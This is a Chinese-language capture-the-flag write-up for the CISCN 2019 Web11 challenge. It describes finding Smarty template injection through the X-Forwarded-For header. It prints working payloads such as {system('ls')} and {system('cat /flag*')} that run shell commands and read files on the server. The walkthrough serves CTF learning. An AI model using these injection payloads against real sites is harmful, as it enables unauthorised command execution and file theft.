 ```yaml
---
title: CISCN 2019华东南Web11
date: 2022-05-14 22:10:34
toc: false
tags:
- CTF
- SSTI
categories: CTF
my: CISCN2019_Web11
---
```


拿到题目  我只看见满屏的IP  

![](https://s2.loli.net/2022/05/14/A6CEuG9DUd2KMXk.png)

第一时间想到这道题与IP有关系 打开我们的hackbar尝试修改X-Forwarded-For的值  发现右上角有了变化

![](https://s2.loli.net/2022/05/14/8tKpH5VEjrN6AlB.png)

![](https://s2.loli.net/2022/05/14/SQUjBWb8qmTc4vN.png)

尝试获取根目录下文件

```
{system('ls')}
```



右上角出现回显

![](https://s2.loli.net/2022/05/14/ub1EKCRpGHVN9fi.png)

为了方便我们burp抓一下包  直接定位到我们需要的位置

![](https://s2.loli.net/2022/05/14/xb2dZCHcheVUKzS.png)

尝试各种读取  发现都没有flag

- X-Forwarded-For:{system(‘cat /api’)}
- X-Forwarded-For:{system(‘cat /css’)}
- X-Forwarded-For:{system(‘cat /index.php’)}
- X-Forwarded-For:{system(‘cat /smarty’)}
- X-Forwarded-For:{system(‘cat /templates_c’)}
- X-Forwarded-For:{system(‘cat /xff’)}

于是根据做题经验，我们盲猜！flag在根目录  很快就找到了flag

```
{system('cat ../../../flag')}或者{system('cat /flag*')}
```

![](https://s2.loli.net/2022/05/14/irAJaCpnRwWljFm.png)

第二种解法偶尔会出现牛鬼蛇神fl0g就找不到 建议还是老老实实去根目录找

![](https://s2.loli.net/2022/05/14/4udCAWSvlmBospQ.png)
